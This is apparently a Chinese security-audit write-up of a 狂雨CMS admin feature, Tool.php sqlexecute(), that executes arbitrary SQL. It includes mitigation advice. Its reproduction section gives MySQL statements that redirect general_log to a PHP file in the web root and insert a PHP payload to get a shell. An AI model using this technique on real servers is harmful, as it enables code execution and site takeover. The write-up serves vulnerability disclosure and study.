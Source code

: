 # 狂雨CMS后台SQL代码执行

## 审计

`application/admin/controller/Tool.php->sqlexecute()`

```php
public function sqlexecute(){
        if($this->request->isPost()){
            $sql=$this->request->param('sql');
            if(!empty($sql)){
                $sql = str_replace('{pre}',Config::get('database.prefix'),$sql);
                //查询语句返回结果集
                if(strtolower(substr($sql,0,6))=="select"){

                }
                else{
                    $return = Db::execute($sql);
                }
            }
            return $this->success('执行完成');
        }else{
            $this->assign('meta_title','SQL语句执行');
            return $this->fetch();
        }
    }
```

Db是thinkphp内置类，可以看到前六个字符是`select`的话其实什么都没有执行。。。报错的话无法存入log中，所以用了`create`

### 防御方法

针对传入的语句进行限制，比如只能进行查询操作。建议最好还是直接取消这个功能，对SQL的操作直接在服务器上进行，放在后台实在是弊大于利

## 漏洞复现

后台存在SQL代码执行功能

![mtUfnCEZOR1M7KP](./resource/狂雨CMS后台SQL代码执行/media/mtUfnCEZOR1M7KP.png)

但`secure_file_priv`设置为空，无法导出文件，可以利用`general_log`进行getshell

依次执行以下代码

```mysql
set global general_log=On;
set global general_log_file="D:\\phpstudy_pro\\WWW\\123.php";
create table tmp (value varchar(25));
insert into tmp (value) values ("<?php phpinfo(); ?>");
drop table tmp;
set global general_log=Off;
```

![5fiPb2YKw8IlMJX](./resource/狂雨CMS后台SQL代码执行/media/5fiPb2YKw8IlMJX.png)

得到`general_log`，内容如图所示

![rP1bqJAwpymRxLI](./resource/狂雨CMS后台SQL代码执行/media/rP1bqJAwpymRxLI.png)

访问即可看到`phpinfo`

## 参考

https://www.cnblogs.com/0daybug/p/12624364.html
